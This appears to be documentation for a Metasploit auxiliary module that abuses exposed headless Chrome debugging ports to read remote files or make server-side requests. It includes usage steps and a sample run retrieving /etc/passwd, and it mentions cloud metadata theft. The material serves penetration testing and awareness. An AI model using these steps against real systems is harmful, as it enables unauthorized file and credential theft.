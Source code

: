 # Chrome Debugger Arbitary File Read / Abitrary Web Request Auxiliary Module

This module takes advantage of misconfigured headless chrome sessions and either retrieves a specifiedfile off the remote file system, or makes a web request from the remote machine.

## Headless Chrome Sessions
	
A vulnerable Headless Chrome session can be started with the following command:

```
$ google-chrome --remote-debugging-port=9222 --headless --remote-debugging-address=0.0.0.0
```

This will start a webserver running on port 9222 for all network interfaces.

## Verification Steps
	
1. Start `msfconsole`
2. Execute `auxiliary/gather/chrome_debugger`
3. Execute `set RHOST $REMOTE_ADDRESS`
4. Execute `set RPORT 9222`
5. Execute either `set FilePath $FILE_PATH_ON_REMOTE` or `set Url $URL_FROM_REMOTE`
6. Execute `run`

## Options

* FilePath - The file path on the remote you wish to retrieve
* Url - A URL you wish to fetch the contents of from the remote machine

**Note:** One or the other must be set!

## Example Run

```
[*] Attempting Connection to ws://192.168.20.168:9222/devtools/page/CF551031373306B35F961C6C0968DAEC
[*] Opened connection
[*] Attempting to load url file:///etc/passwd
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Retrieved resource
[*] Auxiliary module execution completed
```

## Notes

This can be useful for retrieving cloud metadata in certain scenarios.  Primarily this module targets developers.
